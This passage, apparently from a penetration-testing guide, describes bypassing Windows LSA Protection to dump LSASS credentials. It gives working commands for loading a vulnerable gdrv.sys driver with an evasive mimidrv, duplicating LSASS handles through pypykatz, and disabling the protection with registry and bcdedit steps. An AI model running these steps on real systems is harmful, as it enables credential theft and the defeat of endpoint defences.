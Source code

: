 If a protected antivirus solution is installed on the targeted system, a
legitimate driver vulnerable to a code execution vulnerability can be loaded in
order to gain kernel space code execution. The `gdrv-loader` project leverages
the `gdrv.sys` driver, vulnerable to multiples critical vulnerabilities
(`CORE-2018-0007`), to load the specified unsigned driver. Doing so, a modified
`mimidrv` driver that does not raise antivirus alerts can be loaded in memory.  

```
# Loads the (potentially unsigned) specified driver using the gdrv.sys driver.
gdrv-loader.exe gdrv.sys <mimidrv.sys | DRIVER_FILE_PATH>

# The mimikatz process can directly be protected as the mimidrv driver is loaded in the kernel.
mimikatz # !processProtect /process:mimikatz.exe
[...]

# Unloads the specified driver.
gdrv-loader.exe <mimidrv.sys | DRIVER_FILE_PATH>
```

*Through duplication of an handle on the `LSASS` opened by an unprotected process.*

If an unprotected process running locally has an opened handle on the `LSASS`
process, this handle can be duplicated in order to read / dump `LSASS` memory
through it, even if the `LSASS` process itself is protected. An unprotected
user-land process could have obtained such handle legitimately through a
Windows driver for example.

The [`pypykatz`](https://github.com/skelsec/pypykatz)'s `handledup` method
implements this technique in the following manner:
  1. enumeration of all handles opened by all processes using the semi
    documented `NtQuerySystemInformation` API

  2. For each process:<br>
        2.1 opening of the process using the `Win32` API `OpenProcess` with the             `PROCESS_DUP_HANDLE` access right. <br>
        2.2 duplication of each of the opened process's handles using the
        `Win32` API `DuplicateHandle`. <br>
        2.3 For each handle, check if its a handle on the `LSASS` process using
        the `Win32` `NtQueryObject` and `QueryFullProcessImageName` APIs.

```
pypykatz live lsa --method handledup
```

*Official opt-out procedure.*

Finally, the Microsoft official `LSA Protection` opt-out procedure can be
followed in order to disable the `UEFISecureBootEnabled` mechanism and reset the
`UEFI` variable.

```
Procedure source: https://www.microsoft.com/en-us/download/details.aspx?id=40897

reg add HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Control\SecureBoot\State /v UEFISecureBootEnabled /d 0x0

# Requires the x64\LsaPplConfig.efi or x86\LsaPplConfig.efi Extensible Firmware Interface files from the official procedure.
# Should be run in a command prompt with elevated privileges.
mountvol X: /s
copy C:\LsaPplConfig.efi X:\EFI\Microsoft\Boot\LSAPPLConfig.efi /Y
bcdedit /create {0cb3b571-2f2e-4343-a879-d86a476d7215} /d "DebugTool" /application osloader
bcdedit /set {0cb3b571-2f2e-4343-a879-d86a476d7215} path "\EFI\Microsoft\Boot\LSAPPLConfig.efi"
bcdedit /set {bootmgr} bootsequence {0cb3b571-2f2e-4343-a879-d86a476d7215}
bcdedit /set {0cb3b571-2f2e-4343-a879-d86a476d7215} loadoptions %1
bcdedit /set {0cb3b571-2f2e-4343-a879-d86a476d7215} device partition=X:
mountvol X: /d
```
